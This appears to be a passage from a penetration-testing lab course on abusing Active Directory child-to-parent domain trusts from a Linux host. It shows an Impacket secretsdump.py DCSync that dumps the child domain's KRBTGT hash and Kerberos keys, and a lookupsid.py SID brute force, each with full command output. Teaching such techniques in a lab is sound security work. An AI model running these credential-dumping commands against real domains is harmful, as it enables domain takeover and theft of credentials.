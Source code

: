 # Attacking Domain Trusts - Child -> Parent Trusts - from Linux

We can also perform the attack shown in the previous section from a Linux attack host. To do so, we'll still need to gather the same bits of information:

* The KRBTGT hash for the child domain
* The SID for the child domain
* The name of a target user in the child domain (does not need to exist!)
* The FQDN of the child domain
* The SID of the Enterprise Admins group of the root domain

Once we have complete control of the child domain, `LOGISTICS.INLANEFREIGHT.LOCAL`, we can use `secretsdump.py` to DCSync and grab the NTLM hash for the KRBTGT account.

**Performing DCSync with secretsdump.py**

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
AIceBear@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
[*] Cleaning up...
```

Next, we can use [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) from the Impacket toolkit to perform SID brute forcing to find the SID of the child domain. In this command, whatever we specify for the IP address (the IP of the domain controller in the child domain) will become the target domain for a SID lookup. The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format `DOMAIN_SID-RID`. For example, from the output below, we can see that the SID of the `lab_adm` user would be `S-1-5-21-2806153819-209893948-922872689-1001`.

**Performing SID Brute Forcing using lookupsid.py**

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
AIceBear@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 172.16.5.240
[*] StringBinding ncacn_np:172.16.5.240[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
500: LOGISTICS\Administrator (SidTypeUser)
501: LOGISTICS\Guest (SidTypeUser)
502: LOGISTICS\krbtgt (SidTypeUser)
512: LOGISTICS\Domain Admins (SidTypeGroup)
513: LOGISTICS\Domain Users (SidTypeGroup)
514: LOGISTICS\Domain Guests (SidTypeGroup)
515: LOGISTICS\Domain Computers (SidTypeGroup)
516: LOGISTICS\Domain Controllers (SidTypeGroup)
517: LOGISTICS\Cert Publishers (SidTypeAlias)
520: LOGISTICS\Group Policy Creator Owners (SidTypeGroup)
```